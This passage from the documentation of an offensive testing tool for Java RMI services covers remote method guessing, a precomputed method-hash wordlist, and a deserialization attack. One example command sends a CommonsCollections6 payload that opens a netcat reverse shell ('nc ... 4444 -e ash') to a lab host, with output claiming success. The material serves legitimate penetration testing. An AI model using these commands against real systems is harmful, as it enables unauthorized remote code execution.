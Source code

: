 ```console
[+] Listing successfully guessed methods:
[+] 	-  ssl-server
[+] 		--> String system(String[] dummy)
[+] 		--> int execute(String dummy)
[+] 		--> void releaseRecord(int recordID, String tableName, Integer remoteHashCode)
[+] 	-  plain-server
[+] 		--> String system(String dummy, String[] dummy2)
[+] 		--> String execute(String dummy)
[+] 	-  secure-server
[+] 		--> void updatePreferences(java.util.ArrayList dummy1)
[+] 		--> void logMessage(int dummy1, Object dummy2)
[+] 		--> String login(java.util.HashMap dummy1)
```

To reduce the overhead of dynamic class generation, *rmg* also supports an optimized wordlist format that
contains the pre-computed method hashes and some meta information about the methods.

```console
[qtc@kali wordlists]$ head -n 5 rmg.txt 
boolean call(String dummy, String dummy2, String dummy3); 2142673766403641873; false; false
boolean call(String dummy, String dummy2); -9048491806834107285; false; false
boolean call(String dummy, String[] dummy2); 7952470873340381142; false; false
boolean call(String dummy); -5603201874062960450; false; false
boolean call(String[] dummy); -4301784332653484516; false; false
```

To transform a plain wordlist file into the optimized format, just use the ``--update`` option during the ``guess``
operation. This will update all currently used wordlist files to the optimized format.


#### Method Based Deserialization Attacks (method)

Remote methods that do not only use primitive types within their arguments are often vulnerable to *deserialization attacks*.
This great [blog post](https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/) by [Hans-Martin Münch](https://twitter.com/h0ng10)
explains this issue in more detail. *remote-method-guesser* can be used to easily verify such a vulnerability. As an example,
we can use the ``String login(java.util.HashMap dummy1)`` method that was guessed in the example above.

```console
[qtc@kali ~]$ rmg --ssl 172.18.0.2 1090 attack CommonsCollections6 "nc 172.18.0.1 4444 -e ash" --signature "String login(java.util.HashMap dummy1)" --bound-name secure-server
[+] Connecting to RMI registry... done.
[+] Obtaining a list of bound names... done.
[+] 3 names are bound to the registry.
[+] Creating ysoserial payload... done.
[+] Attacking String login(java.util.HashMap dummy1)
[+] Target name specified. Only attacking bound name: secure-server
[+] 
[+] Current bound name: secure-server
[+] 	Found non primitive argument type on position 0
[+] 	Invoking remote method...
[+] 	Caught ClassNotFoundException during deserialization attack.
[+] 	Deserialization attack most likely worked :)
```
